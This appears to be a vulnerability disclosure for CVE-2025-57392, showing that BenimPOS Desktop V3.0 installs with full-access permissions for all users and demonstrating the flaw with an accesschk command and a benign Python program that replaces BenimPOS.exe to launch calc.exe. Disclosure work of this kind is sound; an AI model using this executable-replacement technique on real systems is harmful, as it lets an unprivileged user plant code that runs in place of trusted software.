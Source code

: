 CVE-2025-57392

🔒 Security Vulnerability Report
Product: BenimPOS Desktop V3.0
Vulnerability Type: Insecure File Permissions
Affected Components: BenimPOS.exe, unins000.exe, System.Data.SQLite.dll
Vulnerability Class: CWE-276: Incorrect Default Permissions
Proof of Concept by: Fatih Bülbül
Test Environment: Windows 11 x64 – Local Admin + Standard User


🛠️ 1. Vulnerability Detection
First, I checked the permissions of the directory where the BenimPOS application is installed using the AccessChk.exe tool developed by Sysinternals:
Command Used:
accesschk.exe -dqvw "C:\Program Files (x86)\BenimPOS"

Obtained Result:
RW Everyone
  FILE_ALL_ACCESS
RW BUILTIN\Users
  FILE_ALL_ACCESS


📌 FILE_ALL_ACCESS permissions have been granted to the "Everyone" and "BUILTIN\Users" groups. This means that any standard user can modify the application's .exe or .dll files.
📸 A screenshot of this output is provided below:

<img width="945" height="437" alt="image" src="https://github.com/user-attachments/assets/91dbc4e4-1f96-4652-a7ea-dff804744fa2" />

<img width="945" height="536" alt="image" src="https://github.com/user-attachments/assets/17494949-0b24-44a5-95ab-0d258b6706e6" />


2. Exploitation of the Vulnerability
With these permissions, I replaced the BenimPOS.exe file in the application directory with a custom harmless .exe file I created.
📦 Malicious EXE Example (launches calc.exe):
import subprocess
import sys
import traceback

try:
    subprocess.Popen(r"C:\\Windows\\System32\\calc.exe")
except Exception as e:
    with open("error_log.txt", "w") as f:
        f.write(traceback.format_exc())
    sys.exit(1) 


•	I converted this script into an .exe file (e.g., using PyInstaller).
•	Then, I replaced the original BenimPOS.exe file with this new executable.
🔁 Program Launch:
•	Instead of opening BenimPOS, the calculator (calc.exe) was executed.
📸 Screenshot (calc.exe launched):

<img width="945" height="711" alt="image" src="https://github.com/user-attachments/assets/f3cd6808-79f7-47b7-ae2f-78c2a82d3bea" />
